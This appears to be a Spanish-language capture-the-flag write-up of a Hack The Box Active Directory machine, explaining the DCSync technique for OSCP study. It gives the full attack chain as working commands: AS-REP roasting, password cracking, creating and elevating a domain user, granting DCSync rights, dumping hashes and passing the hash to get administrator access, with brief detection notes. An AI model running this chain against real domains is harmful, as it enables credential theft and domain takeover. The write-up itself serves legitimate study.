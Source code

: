 ### ¿Qué es DCSync?

DCSync es una técnica que permite a un atacante simular el comportamiento de un Controlador de Dominio (DC) para sincronizar y replicar datos, incluyendo hashes de contraseñas de cuentas de dominio.

### Mecanismo del Ataque

1. **Replicación de Directorio**: Los DCs usan protocolos como DRSUAPI para sincronizar la base de datos NTDS.dit
    
2. **Privilegios Requeridos**: Se necesitan los permisos `Replicating Directory Changes` y `Replicating Directory Changes All`
    
3. **Extracción de Hashes**: Permite dumpear todos los hashes NTLM del dominio
    

## Flujo del Ataque en Forest

### 1. Foothold Inicial - ASREPRoasting

bash

# Enumeración de usuarios con pre-autenticación Kerberos deshabilitada
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass

# Crackeo del hash TGT
john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt

**Resultado**: Credenciales `svc-alfresco:s3rvice`

### 2. Acceso Inicial via WinRM

bash

evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

### 3. Escalada de Privilegios - Análisis con Bloodhound

- **svc-alfresco** es miembro del grupo **Account Operators**
    
- **Account Operators** puede añadir usuarios a grupos no protegidos
    
- **Exchange Windows Permissions** tiene **WriteDacl** sobre el dominio
    

### 4. Preparación para DCSync

#### Crear usuario malicioso

powershell

net user john abc123! /add /domain
net group "Exchange Windows Permissions" john /add
net localgroup "Remote Management Users" john /add

#### Otorgar privilegios DCSync usando PowerView

powershell

# Cargar PowerView
. .\PowerView.ps1

# Crear credenciales
$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\john', $pass)

# Otorgar derechos DCSync
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

### 5. Ejecución del Ataque DCSync

bash

impacket-secretsdump htb/john@10.10.10.161

**Output crítico**:

text

htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::

### 6. Acceso como Administrador

bash

impacket-psexec administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

## Conceptos Clave para OSCP

### Permisos Requeridos para DCSync

- `DS-Replication-Get-Changes`
    
- `DS-Replication-Get-Changes-All`
    
- `DS-Replication-Get-Changes-In-Filtered-Set`
    

### Grupos que normalmente tienen estos permisos

- Administrators
    
- Domain Admins
    
- Enterprise Admins
    
- Exchange Windows Permissions (en entornos Exchange)
    

### Detección y Mitigación

- **Monitoreo**: Eventos 4662 en logs de Windows para replicación no autorizada
    
- **Principio de Mínimo Privilegio**: Revisar membresías de grupos privilegiados
    
- **Hardening**: Remover permisos innecesarios de grupos como Exchange Windows Permissions
    

### Herramientas Alternativas

- **Mimikatz**: `lsadump::dcsync`
    
- **SharpKatz**: Implementación en C# de Mimikatz
    
- **DSInternals**: Para análisis forense de AD
    

Este ataque demuestra la importancia de la segregación de privilegios y el monitoreo de cambios en ACLs en entornos Active Directory.